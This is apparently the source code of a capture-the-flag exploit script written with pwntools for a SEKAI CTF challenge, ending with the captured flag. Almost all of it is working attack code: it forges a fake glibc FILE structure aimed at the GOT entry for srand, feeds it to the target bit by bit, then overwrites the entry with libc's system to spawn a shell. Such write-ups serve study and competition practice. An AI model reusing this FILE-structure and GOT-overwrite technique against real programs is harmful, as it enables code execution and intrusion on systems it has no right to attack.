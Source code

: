 ```python
libc.address = libc_base

payload = flat(
    0xdeadbeefcafebabe,
    0x68732f6e69622f2f,
    0x4040a0,
    {
        0x0: 0xfbad2488,
        0x38: exe.got.srand - 0x8, # buf_base
        0x40: exe.got.srand + 0x8, # buf_end
        0x88: 0x404800, # lock
        0x90: 0, # fd
        0xd8: libc_base + 0x202030 # vtable
    },
    0x68732f6e69622f2f,
    endianness="big",
    filler=b"\x00",
)

hexstr = payload.hex()
binstr = "{:08b}".format(int(hexstr, 16))
binstr = [binstr[i:i+64][::-1] for i in range(0, len(binstr), 64)]

print(binstr)

counter = 0
for num in binstr:
    for i in num:
        counter += 1
        if counter % 100 == 0:
            print(counter)
        if i == "0":
            fight(False)
        else:
            fight(True)

# trigger using our fake file
p.sendline(b"r")

# weirdly, need this to trigger the buffering
# just ctrl c
p.interactive()

payload = flat(
    0x404181,
    libc.sym.system,
)
p.sendline(payload)
#
p.interactive()
# SEKAI{congratz_you_beat_the_bot_and_hopefully_got_the_bounty!_1dee87}
```
